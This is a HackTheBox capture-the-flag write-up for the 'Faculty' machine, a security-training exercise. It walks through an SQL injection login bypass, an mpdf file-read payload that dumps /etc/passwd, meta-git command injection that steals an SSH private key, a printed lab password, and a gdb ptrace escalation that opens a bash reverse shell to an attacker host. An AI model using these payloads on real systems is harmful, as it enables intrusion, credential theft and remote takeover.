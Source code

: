 ```yaml
---
title: "Faculty Machine Writeup"
classes: wide
header:
  teaser: /assets/images/hackthebox/Faculty-Writeup/Faculty.png
ribbon: red
description: "Faculty is medium machine"
categories:
  - HackTheBox
toc: false
---
```


<img src="/assets/images/hackthebox/Faculty-Writeup/Faculty.png" style="zoom:50%;" />

## Recon

First, let's start with nmap port scanning.

![](/assets/images/hackthebox/Faculty-Writeup/nmap-results.png)

We can see that port 80 is open so let's check the running web service.

![](/assets/images/hackthebox/Faculty-Writeup/Website.png)

Running gobuster against the site. it shows the following results:

![](/assets/images/hackthebox/Faculty-Writeup/gobuster-1.png)

This `/admin` path looks interesting, so let's run gobuster against it (this will come in handy later).

![](/assets/images/hackthebox/Faculty-Writeup/gobuster-2.png)

Now if we can go to the `/admin` path we can see a login page.

I tried admin/admin as the login creds but it didn't work, so I tried basic SQL injection ` admin' or 1=1 -- -` in the username field and it successfully bypassed the login page.

![](/assets/images/hackthebox/Faculty-Writeup/bypass-login.png)

![](/assets/images/hackthebox/Faculty-Writeup/administrator-page.png)

After some checks in website I found a page where I can upload a new pdf file and download a pdf file containing the list of uploaded pdfs.

![faculty-list](/assets/images/hackthebox/Faculty-Writeup/faculty-list.png)

When I clicked on the download pdf button, I noticed `mpdf` in the generated file url.

![](/assets/images/hackthebox/Faculty-Writeup/mpdf.png)

Searching for `mpdf`, it turned out to be a `PHP library which generates PDF files from UTF-8 encoded HTML`.

We can also intercept the request in burp and decode the `pdf` parameter to see the decoded HTML file ( base64 and url decode twice).

![pdf-burp](/assets/images/hackthebox/Faculty-Writeup/pdf-burp.png)

A quick search and I found a vulnerability for `mpdf` library (CVE-2019-1000005).

We can test that the vulnerability works using (\<img src="http://10.10.x.x/"\>) as the HTML file then encode it and replace the pdf parameter in the burp request with it.

![cyberchef](/assets/images/hackthebox/Faculty-Writeup/cyberchef.png)

nc returns a response, NOICE!

![](/assets/images/hackthebox/Faculty-Writeup/test-vuln-2.png)

## Shell as gbyolo

Now that the vulnerability is working, we can try to read different files from the server using this payload:

`<annotation file=\"/etc/passwd\" content=\"/etc/passwd\"  icon=\"Graph\" title=\"Attached File: /etc/passwd\" pos-x=\"195\" />`

![](/assets/images/hackthebox/Faculty-Writeup/lfi.png)

`/etc/passwd`

<img src="/assets/images/hackthebox/Faculty-Writeup/passwd.png" style="zoom: 67%;" /> 

`./login.php`

![](/home/emperor10/Pictures/login.png)

Notice the included file `./db_connect.php`, let's try to read it.

![](/assets/images/hackthebox/Faculty-Writeup/db_connect.png)

We found a password, so I tried it with the username `gbyolo` as ssh creds.

username: `gbyolo`
password: `Co.met06aci.dly53ro.per`

![](/assets/images/hackthebox/Faculty-Writeup/gbyolo-user.png)

## Shell as developer

Running `sudo -l`, we can see that `gbyolo` user can run `meta-git` (a NPM package that can manage your meta repo and child git repositories) as `developer` user.

I found a [report](https://hackerone.com/reports/728040) on hackerone showing an RCE exploit for this package so I crafted this payload to read the rsa key for the `developer` user.

`sudo -u developer /usr/local/bin/meta-git clone 'test||cat /home/developer/.ssh/id_rsa' `.

![](/assets/images/hackthebox/Faculty-Writeup/developer-id_rsa.png)

> Remember to change the permissions of the `id_rsa` file to 600

Now we can ssh into box with `developer` user and read `user.txt`.

![](/assets/images/hackthebox/Faculty-Writeup/developer-user.png)

## Shell as root

Running [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), I found that `gdb` has `CAP_SYS_PTRACE` capability which allows it to debug any other process.

![](/assets/images/hackthebox/Faculty-Writeup/gdb.png)

So let's search for a python process running as `root` user to be able to run a system command using python's `system()` function:

`ps aux | grep "^root.*python3" | awk '{print $2}'`

Found one, now attach gdb to it.

`gdb -p $PID`

![gdb](/assets/images/hackthebox/Faculty-Writeup/gdb-exploit-1.png)

Finally run a nc listener on our side and call `system()` function to get a reverse shell.

`call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.x.x/4444 0>&1'")` 

![gdb](/assets/images/hackthebox/Faculty-Writeup/gdb-exploit-2.png)

![gdb](/assets/images/hackthebox/Faculty-Writeup/root.png)